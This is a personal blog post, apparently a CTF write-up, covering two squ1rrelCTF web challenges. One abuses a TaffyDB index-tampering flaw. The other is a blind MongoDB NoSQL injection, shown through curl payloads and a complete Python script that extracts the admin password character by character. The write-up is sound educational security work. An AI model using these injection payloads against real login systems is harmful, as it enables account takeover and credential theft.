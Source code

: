 ```yaml
---
layout: post
title: "The Summer of Challs: Week 1"
date: 2024-05-09
categories: CTFs
---
```


This summer, I will be trying to do around 5-6 CTFs each week, and I’ll make a blog post about the 1 or 2 that I found most interesting. I usually work on web challenges, but I want to branch out more this summer - possibly more rev or maybe even pwn (a man can dream). I’ll also be putting up some other things on here, like random projects I’m working on.

This week, I only had time to check out a couple of challenges from the squ1rrelCTF. They were both web.

## JSON STORE

You’re presented with a queryable JSON database through a simple web app. You can post data with a username to the database, and you can get data through the same process.

![JSON Store - Empty](/assets/JSONStoreBlank.jpg)

When looking at some of the source code of the website, it seems that node.js checks if we add the username `admin` (it filters this out) and if we are inputting a string, so there is some level of sanitization.

Then, I found this in `index.js`:

```javascript
const express = require("express");
const path = require("path");
const TAFFY = require("taffydb").taffy;
```
What is taffyDB? A quick google search led me to this [Synk post](https://security.snyk.io/vuln/SNYK-JS-TAFFYDB-2992450).

The vulnerability is reported as “Internal Property Tampering”. Essentially, each time an entry is added into the database, an index is generated. The format of this index is the same each time: `T000002R` followed by a number that is usually zero'd out. If an index is found in a query, other query conditions are ignored and the data item is returned directly. It also appears that the first index for whatever “first object” is added in the DB is always `T000002R000002`.
Upon reading the Synk post a bit closer, and also checking this out, [TaffyDB Vuln](https://www.sitepoint.com/community/t/taffydb-security-vulnerability/406006/2), I found that you also have to set some parameter called `__s` to `true` in the query. In other words, if you put an `id` in the query, and set `__s` to `true`, the database will return all contents of the entry with that index.
So, we just have to find the index of whatever account has the flag as their password. I found this in `index.js`:

```javascript
const db = TAFFY([
    {"username": "admin", "comments": process.env.FLAG},
    {"username": "randomuser", "comments": "This is a test comment"},
]);
```

Just out of curiosity, I checked the index for random user. Sure enough, it was `T000002R000003`, meaning the indexes increment each time a new object is added. Either way, we now know the index of the admin username, and can get the flag. We can easily bypass the "admin" sanitization, because it doesn't matter what username we input:

![Getting the Flag](/assets/JSONStoreFlag.jpg)

While simple, I actually like these kinds of challenges. They showcase real vulnerabilities in software that (apparently) thousands of people are using, and they make you exercise the "vuln research" muscle a bit, even if it's just a simple google search.

## GOOSEMON

I wonder what this challenge could be about. We are told that the flag is a password. When opening the site, you are taken to a login page. Not much to see here.

![Login Portal](/assets/goosemonpic.jpg)

When looking at the source code, I found that (big surprise) they are using MongoDB. They also are filtering out any post requests including the word regex (this actually was slightly relieving, because I am not that good at regex yet). I also found that an account called admin was made, which has the flag as the password. Similarly to the last challenge, we will have to make a request to find the admin's password, but this time the word admin is not sanitized.

Additionally, any requests/queries you try to make through the login portal don’t give much feedback, so this is basically a blind injection. I doubt any kind of time delays will be involved, so the logical choice is to input some sort of conditional querying, and see if our requests are going through successfully or not.

I toyed with the idea of writing a script to execute this cURL command:

```bash
curl -X POST -H 'Content-Type: application/json' -d '{"username":"admin", "password": {"$gt":"squ1rell{a"}}'
```
Essentially, it uses the comparison operator. This slowly allows you to put together the password. The database goes to the admin entry, and then compares the password with `"squ1rell{a"`. If it is greater, it returns true. This is similar to the actual passwords matching in the database in terms of "true" being returned, so the server returns something like "login successful". If it isn’t greater, we know that we have to look at the previous character we tried. This method can slowly narrow down the password.

Once we get one character right, we append it,

```bash
curl -X POST -H 'Content-Type: application/json' -d '{"username":"admin", "password": {"$gt":"squ1rell{7a"}}'
```

and keep checking. However, this idea doesn’t work, because as you keep posting with a longer and longer password, the password itself actually contains the word "regex". In other words, this method requires us to post with as much of the password as we know, to see if the actual password is greater. This means the more characters we find out, the more characters we post, forcing us to post regex. 

So, we need a way of comparing single characters with a single character in the password, rather than comparing what we already have of the password to the actual thing. To do this, we need substring. I found the substring functionality for MongoDB here: [MongoDB Substring Functionality](https://www.mongodb.com/docs/manual/reference/operator/aggregation/substr/). It says that `$substr` is an aggregation operator. We need to make a query using this aggregation operator. 

In the Query and Projection Operators section of the MongoDB manual, I found this: [MongoDB Evaluation Operators](https://www.mongodb.com/docs/manual/reference/operator/query-evaluation/).

This `$expr` operator is exactly what we are looking for. We can also use the `$eq` operator, instead of `$gt`. Essentially, I want to take a substring of admin’s password, extracting a single character, and see if it is equal to each possible ASCII character. This way, we never have to make a post with the full "regex" word. 

Getting the syntax right was tricky, but if you stick with the manpages, you should be able to get it. Anyway, I came up with this script:

```python
import requests
import string

url = "http://34.132.166.199:5249/login"
flag = "squ1rrel{"
passwordIndex = len(flag)
charIndex = 0
while flag[-1] != "}":
    data = {
        "username": "admin",
        "$expr": {
            "$eq": [
                {"$substr": ["$password", passwordIndex, 1]}, string.printable[charIndex]
            ]
        }
    }
    response = requests.post(url, json=data)
    if response.status_code == 200:
        flag += string.printable[charIndex]
        print("Flag so far:", flag)
        passwordIndex += 1
        charIndex = 0
    else:
        charIndex += 1

print("Final flag: ", flag)
```
Running the script, we get this:

![Terminal with Flag](/assets/solvepic.jpg)

Cool challenge! I learned some interesting MongoDB stuff. Obviously, they should sanitize the inputs in the login portal to make this secure.

I am going on vacation for the next 10 days, but once I get back, the weekly grind will continue. 
